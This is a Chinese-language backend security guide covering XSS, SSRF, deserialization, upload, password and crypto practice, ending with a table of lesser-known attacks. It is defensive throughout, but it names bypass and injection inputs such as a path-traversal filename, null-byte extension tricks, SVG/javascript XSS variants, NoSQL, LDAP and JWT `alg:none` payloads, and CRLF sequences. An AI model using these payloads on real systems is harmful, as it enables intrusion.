| 反射型 | URL 参数 | 受害者点链接 | 不把参数直接回显进 HTML |
| DOM 型 | `location.hash`、`postMessage` | 前端 JS 写入 `innerHTML` | 后端兜不住，只能靠前端 |

后端的核心原则：**存的时候尽量存原文，渲染成 HTML 的那一刻按上下文转义。**

| 上下文 | 正确做法 | 错误做法 |
|---|---|---|
| HTML 文本 | `&lt;` `&gt;` `&amp;` 转义 | 只删 `<script>` |
| 属性值 | 引号包裹 + 转义引号 | 不加引号直接拼 |
| URL 参数 | `encodeURIComponent` | 直接拼进 `href` |
| JS 变量 | 用 JSON 序列化写入 | 字符串拼进 `<script>` |
| 富文本 | 标签 + 属性白名单清洗 | 黑名单过滤 `onerror` |

黑名单永远不完备：``、`<svg onload=...>`、`javascript:` 大小写变形、HTML 实体编码，绕法层出不穷。富文本用成熟库做白名单：

```java
Safelist list = Safelist.relaxed()
        .addProtocols("img", "src", "http", "https")     // 禁 data: 与 javascript:
        .addProtocols("a", "href", "http", "https", "mailto");
String safe = Jsoup.clean(dirtyHtml, list);              // 标签与属性都按白名单保留
```

兜底是 CSP 和 HttpOnly：CSP 让内联脚本不执行，HttpOnly 让偷到的 Cookie 用不了。**这两条是「万一漏了」的保险，不是替代转义的理由。**

### 3.8 SSRF 与出站流量治理

SSRF 的本质是**服务端拥有客户端没有的网络位置**：能访问内网、能读元数据、能连 `localhost` 上的管理端口。

**四道关卡缺一不可**：协议只留 http/https → 主机命中白名单 → 解析出的 IP 是公网 → 不跟随跳转。漏掉任何一步，下一跳就直接落到内网或元数据服务上。**顺序也不能换**：先校验协议再解析主机，先钉死 IP 再连接，每一步都必须在上一步的结果上做判断。



要拦的地址不止 `127.0.0.1`：

| 地址或网段 | 是什么 |
|---|---|
| `10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16` | 内网 |
| `169.254.0.0/16` | 链路本地，云元数据 |
| `100.100.100.200` | 阿里云元数据 |
| `100.64.0.0/10` | 运营商级 NAT |
| `127.0.0.0/8` 的变形 | 十进制 `2130706433`、八进制、IPv6 映射 |
| `::1`、`fc00::/7`、`fe80::/10` | IPv6 回环、唯一本地、链路本地 |

**校验点必须在「连接」这一刻，而不是「解析参数」这一刻。** 常见写法是先 `getByName` 判一遍，再 `openConnection(url)` 让底层重新解析——中间那段时间 DNS 可以改。稳妥做法是解析出 IP 后直接连 IP，`Host` 头单独设置；更稳妥的是统一出口代理，只放行白名单域名。

还有一个非技术手段：**给元数据服务上 IMDSv2（强制 token）**，并给实例角色最小权限。这样即使 SSRF 打通，也拿不到能用的凭证。

> **面试**：常问「SSRF 的四道关卡是什么？」答：协议白名单、域名白名单、解析后 IP 必须是公网、不跟随跳转。

### 3.9 反序列化的攻击面

反序列化把一段字节还原成对象图，还原过程会调用构造器、setter、`readObject`、`hashCode`、`toString`。**攻击者控制的不是数据，是「还原哪个类」和「触发哪个方法」。**

| 入口 | 危险配置 | 安全做法 |
|---|---|---|
| Java 原生 | `new ObjectInputStream(in).readObject()` | 不接收不可信流；必须收时用 `ObjectInputFilter` 白名单 |
| Jackson | `activateDefaultTyping` + `LaissezFaireSubTypeValidator` | 只反序列化 DTO；多态用 `BasicPolymorphicTypeValidator` |
| Fastjson | `autoTypeSupport=true` 或老版本默认 | 升级到 2.x，保持 autoType 关闭 |
| SnakeYAML | `new Yaml()` 解析不可信内容 | `new Yaml(new SafeConstructor())` |
| XStream | 未配置类型白名单 | 显式 `allowTypes`，并升级到当前版本 |

```java
ObjectInputFilter f = ObjectInputFilter.Config.createFilter(
        "com.acme.task.dto.*;java.lang.String;java.lang.Integer;java.lang.Long;!*");   // 按 DTO 字段补齐值类型，其余全拒
```

**边界与取舍**：完全禁用多态会让统一消息体、插件化这类能力失效；工程折中是「多态只发生在内部可信通道，跨信任边界一律用固定 DTO」。判断标准始终是：**这段字节的来源是否可能被攻击者控制。** 内网、MQ、缓存反序列化同样算「可能被控制」。

### 3.10 文件上传的落盘与访问

上传的危险不在「文件传上来了」，而在**传上来的文件被当作程序执行，或被当作 HTML 渲染**。

| 检查层 | 做法 | 绕过手法 |
|---|---|---|
| 扩展名 | 白名单，取最后一个 `.` 后的部分 | 老容器的 `shell.jsp%00.jpg`、大小写、把 `;` 后当路径参数 |
| MIME | 校验 `Content-Type` | 客户端可任意伪造 |
| 魔数 | 读文件头判断真实类型 | 图片马（合法头 + 尾部脚本） |
| 文件名 | 服务端生成 UUID，丢弃原名 | `../../etc/cron.d/x` |
| 目录 | 不在 Web 根下，且禁止执行脚本 | 目录配了 `php`、`jsp` 解析 |
| 访问 | 私有 bucket + 短时效签名 URL | 直接暴露对象地址 |

```java
String ext = ALLOWED.getOrDefault(realType, null);   // 由魔数反查扩展名，不信任原文件名
if (ext == null) throw new BizException("不支持的文件类型");
String key = "upload/" + UUID.randomUUID() + "." + ext;   // 落盘名与用户输入无关
```

**最容易被忽略的是图片马**：文件头是合法 JPEG，尾部带一段脚本。只校验魔数挡不住，需要重编码或对非图片类型强制下载。`Content-Disposition: attachment` 与 `X-Content-Type-Options: nosniff` 能阻止浏览器把上传的文件当页面渲染。

### 3.11 口令存储

口令只能存**哈希**，且必须是「慢哈希 + 每用户随机盐」。

| 算法 | 速度 | 盐 | 结论 |
|---|---|---|---|
| MD5 / SHA-1 | 极快，GPU 每秒数十亿次 | 需自己加，易做错 | ❌ 不能用 |
| SHA-256 + 随机盐 | 快 | 自己做 | ⚠️ 仅迁移期兼容 |
| BCrypt | 慢，cost 可调 | 内置，写在结果里 | ✅ 默认选择 |
| Argon2id | 慢，且吃内存 | 内置 | ✅ 新项目首选 |

BCrypt 的结果自带算法、成本、盐：

```text
$2a$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGxad68LJZdL17lhWy
 └┬┘└┬┘  ↑ 版本 + cost=10（每 +1 耗时翻倍）    ↑ 前 22 字符是随机盐
```

```java
String hash = encoder.encode(raw);                        // 同一口令每次结果不同，正常
boolean ok = encoder.matches(raw, user.getPassword());    // 明文在前，哈希在后
```

两个边界：**cost 要随硬件上调**（10 大约几十毫秒，调到 12 翻四倍，登录接口会明显变慢，需要压测）；**哈希不能代替加密**，需要还原明文的字段必须用可逆加密。

登录失败统一提示「用户名或密码错误」，并且用户不存在时也执行一次哈希比对，避免用响应时间判断账号是否存在。

> **面试**：常问「口令为什么不能用 MD5 存？」答：太快，GPU 每秒数十亿次，必须用慢哈希加每用户随机盐。

### 3.12 加密算法选型与密钥生命周期

| | 对称 AES | 非对称 RSA / ECC | 哈希 SHA-256 |
|---|---|---|---|
| 密钥 | 一把，双方共享 | 一对，公钥可公开 | 无 |
| 速度 | 快 | 慢几百倍 | 快 |
| 用途 | 大量数据加密 | 密钥交换、签名 | 完整性、口令 |
| 长度限制 | 无 | 有（RSA-2048 约 190–245 字节） | 无 |

选型结论：**数据用 AES-GCM，签名用 ECDSA 或 Ed25519，交换密钥用 ECDH 或 RSA 封装，绝不自己发明算法。**

```java
Cipher c = Cipher.getInstance("AES/GCM/NoPadding");
byte[] iv = new byte[12];
new SecureRandom().nextBytes(iv);                        // 每次加密都必须换 IV
c.init(Cipher.ENCRYPT_MODE, key, new GCMParameterSpec(128, iv));
byte[] out = c.doFinal(plain.getBytes(StandardCharsets.UTF_8));   // 认证标签附在末尾
```

GCM 的两个硬约束：**同一密钥下 IV 绝不能重复**（重复会泄露明文异或值，并能伪造认证标签）；**认证失败必须拒绝**，不能忽略 `AEADBadTagException` 继续用解密结果。

| 阶段 | 要求 |
|---|---|
| 生成 | `SecureRandom`，AES-256 取 32 字节 |
| 存放 | 环境变量 / KMS / Vault，不进代码库、不进镜像 |
| 使用 | 按用途分开，不共用一个密钥 |
| 轮换 | 双密钥并行，新数据用新密钥，旧数据按需重加密 |
| 销毁 | 有下线流程，泄露时能立即吊销 |

**信封加密**解决「轮换要大范围重加密」：数据密钥加密数据，主密钥只加密数据密钥；换主密钥时只重加密那一小段。

### 3.13 敏感数据分级与脱敏

| 级别 | 例子 | 存储 | 展示 | 日志 |
|---|---|---|---|---|
| 公开 | 商品名、文章 | 明文 | 原样 | 可记 |
| 内部 | 订单号、内部备注 | 明文 | 按需 | 可记 |
| 敏感 | 手机号、地址、邮箱 | 加密或明文 + 权限控制 | 脱敏 | 脱敏 |
| 高敏 | 身份证、银行卡、密码、密钥 | 加密 / 哈希 | 只显示后四位 | 禁止 |

需要「加密存、又要按它查」的字段用双列：

```sql
ALTER TABLE t_user
  ADD COLUMN phone_cipher VARBINARY(256),   -- AES-GCM 密文，用于展示
  ADD COLUMN phone_hash   CHAR(64),         -- HMAC-SHA256，用于精确查询
  ADD UNIQUE KEY uk_phone_hash (phone_hash);
```

查询时算 HMAC 再查 `phone_hash`；HMAC 的密钥要和数据密钥分开，否则拿到库的人可以暴力枚举手机号。

脱敏要在出口统一做，不能靠每个人记得：日志层用自定义 converter（`conversionRule`）处理 `%msg`，接口层用 DTO 只暴露该接口需要的字段。**「忘了排除字段」是泄露的常见原因，而 DTO 让「没写进去」成为默认。**

### 3.14 限流、幂等与重放

三件事经常被混为一谈，防御对象完全不同：

| | 防什么 | 关键实现 | 失败表现 |
|---|---|---|---|
| 限流 | 频率过高（爆破、爬虫、刷单） | 计数窗口 / 令牌桶 | 429 |
| 幂等 | 同一次操作被提交多次 | 幂等 token + 唯一索引 | 返回首次结果 |
| 防重放 | 合法请求被原样再发一次 | 时间戳 + nonce + 签名 | 401 |

固定窗口够起步，但要知道它的边界：窗口交界处可能放过两倍流量；要求平滑时用令牌桶。

```java
Boolean created = redis.opsForValue()
        .setIfAbsent(key, "1", Duration.ofSeconds(window));   // 计数和过期一起建
Long n = Boolean.TRUE.equals(created) ? 1L : redis.opsForValue().increment(key);
return n != null && n <= limit;
```

`INCR` 本身原子，但 `INCR` 加 `EXPIRE` 是两步：第一次请求若在两步之间失败，key 会永不过期。所以先用 `SET NX EX` 建键（上面的 `setIfAbsent` 带 TTL），或干脆用 Lua 脚本把两步合成一步。

幂等的关键在**原子性**：判断「用过没有」和「标记已用」必须是一个操作。

```java
// ❌ 先 GET 再 SET：两个并发请求会同时读到「不存在」
// ✅ DEL 的返回值就是判断结果：true = 第一次，false = 重复
Boolean first = redis.delete("idem:" + token);
```

Redis 只是第一层，**数据库唯一索引才是兜底**：Redis 挂了、实例重启、token 被绕过，唯一索引仍能拦住重复写入。防重放的 nonce 同理，用 `setIfAbsent` 而不是「先查后写」。

### 3.15 依赖供应链

代码没问题，不代表系统没问题：**第三方库、构建脚本、CI 流水线、制品仓库，任何一环被投毒，影响都比单个漏洞大。**

| 环节 | 风险 | 做法 |
|---|---|---|
| 依赖版本 | 已知漏洞 | CI 里跑扫描，高危让构建失败 |
| 依赖来源 | 抢注、仿冒包名 | 锁仓库源，核对命名与维护者 |
| 版本范围 | `LATEST`、`^1.0` 引入意外升级 | 锁版本 + 锁文件 |
| 构建 | CI token 权限过大 | 最小权限、分支保护、环境审批 |
| 制品 | 发布包被替换 | 签名校验、SBOM |

```bash
mvn dependency-check:check          # Java
npm audit --audit-level=high        # Node
pip-audit                           # Python
govulncheck ./...                   # Go
trivy image your-app:latest         # 镜像里的系统包
```

**边界**：扫描报告里的漏洞不一定可利用，要看「这个函数有没有被调用到」和「输入是否可控」；反过来，扫描通过也不代表安全，业务逻辑漏洞、配置错误它都发现不了。扫描是过滤器，不是证明。

---

## 四、冷门知识汇总

| 知识点 | 为什么冷门 | 用到时的关键词 |
|---|---|---|
| OWASP ASVS | 大家只记 Top 10，验收时才发现需要分级条款 | `OWASP ASVS`（版本以官方当前为准）、L1/L2/L3、验证清单 |
| CWE 与 CVSS | 读漏洞报告时才需要，平时只看「高危」两个字 | `CWE-639`、`CVSS 向量`、`AV:N/AC:L` |
| BOLA 与 BFLA | API 安全的专有名词，和「越权」是同一件事 | `BOLA`、`BFLA`、对象级授权 |
| API 资产测绘 | 影子接口不在文档里，扫描器也扫不到 | `v3/api-docs`、`OPTIONS`、`404 与 403 差异` |
| HTTP 请求走私 | 需要反代与后端对长度解析不一致才成立 | `CL.TE`、`TE.CL`、`Transfer-Encoding` |
| 缓存投毒 | 只在有 CDN 且缓存键设计不当时出现 | `X-Cache`、`Vary`、`unkeyed input` |
| XXE | JSON 流行后 XML 接口变少，但 SDK 仍在解析 XML | `<!DOCTYPE`、`SYSTEM`、`disallow-doctype-decl` |
| SSTI | 模板引擎把用户输入当模板编译才成立 | `{{7*7}}`、`${7*7}`、`Freemarker`、`Thymeleaf` |
| NoSQL 注入 | Mongo 的 `$ne`、`$gt` 操作符从 JSON 直接进查询 | `{"$ne":null}`、`$where` |
| LDAP 注入 | 企业内网登录改造时才遇到 | `*)(uid=*`、`(&(uid={0}))` |
| JWT `alg=none` 与 `kid` 注入 | 库默认安全后少见，老代码仍可能中招 | `alg:none`、`kid=../../`、`JWKS` |
| 时序攻击 | 字符串比较的微秒差异，远程几乎不可利用 | `MessageDigest.isEqual`、常量时间比较 |
| 填充预言 | CBC 模式 + 错误信息可区分才成立 | `CBC`、`padding oracle`、统一错误 |
| 子资源完整性 SRI | 前端构建工具很少默认开启 | `integrity="sha384-..."`、CDN 被替换 |
| CSP 的 report-only | 直接上线会打断业务，先观察再强制 | `Content-Security-Policy-Report-Only`、`report-uri` |
| 点击劫持 | 现代框架默认加 `X-Frame-Options` 后很少提 | `frame-ancestors`、`X-Frame-Options: DENY` |
| 开放重定向 | 单独危害小，配合 OAuth 回调就变大 | `redirect_uri`、`returnUrl` 白名单 |
| CRLF 注入 | 响应头拼接用户输入才会出现 | `%0d%0a`、`Set-Cookie` 拆分 |
| 业务逻辑漏洞 | 扫描器完全不报，只能靠人推演 | 负数金额、优惠券叠加、并发退款 |
| 竞态条件 | 需要并发才复现，测试环境常忽略 | 余额扣减、`SELECT ... FOR UPDATE`、乐观锁 |
| 批量赋值 | 框架自动绑定字段时才会发生 | `@ModelAttribute`、`role` 被一起提交 |
| SBOM | 合规要求推动，日常开发感知弱 | `CycloneDX`、`SPDX`、制品清单 |
| 制品签名 | 供应链攻击变多后才被重视 | `cosign`、`SLSA`、`in-toto` |
| 密钥扫描 | 泄露往往发生在提交历史里，不在当前代码 | `gitleaks`、`trufflehog`、`git log -p` |
| 出口流量审计 | 出站默认全放行，SSRF 才屡屡得手 | 出站白名单、DNS 日志、代理日志 |
| 安全响应头组合 | 单项收益小，组合起来能挡住一整类问题 | `CSP`、`HSTS`、`nosniff`、`Referrer-Policy` |
